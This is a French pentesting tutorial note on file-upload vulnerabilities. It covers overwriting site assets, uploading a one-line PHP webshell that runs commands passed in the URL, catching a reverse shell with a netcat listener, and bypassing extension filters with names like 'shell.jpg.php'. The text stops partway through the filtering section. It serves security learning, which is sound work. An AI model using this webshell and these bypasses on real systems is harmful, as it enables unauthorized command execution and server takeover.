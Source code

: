 
Après avoir [analyser toutes les routes du sites](Decouvertes_du_contenu), on a maintenant une idée d'**où sont stocké les fichiers** que l'on upload.

## __Overwriting Files__

Si le fichier que nous uploadons sera situé au même endroit que les assets du site, nous pouvons écraser un ancien fichier.

![[overwriting1.png]]

On voit que le nom du fichier est *spaniel.jpg*, on peut donc renomer un fichier spaniel.jpg et celui-ci écrasera l'ancien fichier.

![[overwriting2.png]]


## __Remote Controle Execution__

Admettons que nous avons trouvé que nos images sont stocké dans le dossier *uploads/*, on peut se rendre dans ce dossier et nous verrons apparaitre notre image.

![[webshell1.png]]

### Webshell

On peut maintenant essayer d'upload un **executeur de commande**, pour ce faire nous allons créer un fichier PHP contenant ce code :

```php
<?php  
    echo system($_GET["cmd"]); // affiche le resultat de la commande passé en paramètre  
?>
```

Maintenant si nous nous rendons sur notre fichier, nous pouvons mettre notre commande dans l'url
**`webshell.php?cmd=id;whoami;ls`**

![[webshell2.png]]


### Reverse shell

Pour en savoir plus sur les reverse shells, rendez vous dans **[[Reverse_Shell]]**.

On peut donc upload notre reverse shell.

Ensuite il faut qu'on **démarre un serveur Netcat** :

```shell
user@ip:~$ rlwrap nc -vnlp 1234
```

Puis lorsque nous allons nous rendre là où est sauvegardé notre fichier, notre reverse shell aura démarré.


## __Filtering__

Il y a principalement 3 manière de filtrer les fichiers entrant.

### Extension validation

Un code de validation de l'extension pourrai ressembler à celà :

```javascript
let extension = fileName.split(".")[1]; // regarde la 2e partie du nom du fichier

if(extension != "jpg" && extension != "jpeg"){ // vérifie s'il n'est pas en .jpeg
	console.log("Mauvais format !");
	return; // ne donne pas suite à la requête
}
```

Pour bypass ce type de scénario, on doit tout simplement **changer l'extension** de notre fichier et mettant par exemple  **`shell.jpg.php`**.


On peut aussi avoir un autre type de filtrage ressemblant à celà :

```javascript
let decoupage = fileName.split("."); // decoupe le fichier avec les .
let extension = decoupage[decoupage.length - 1]; // verifie la 

if(extension == "php"){ // vérifie s'il n'est pas en .jpeg
	console.log("Mauvais format !");
	return; // ne donne pas suite à la requête
}
```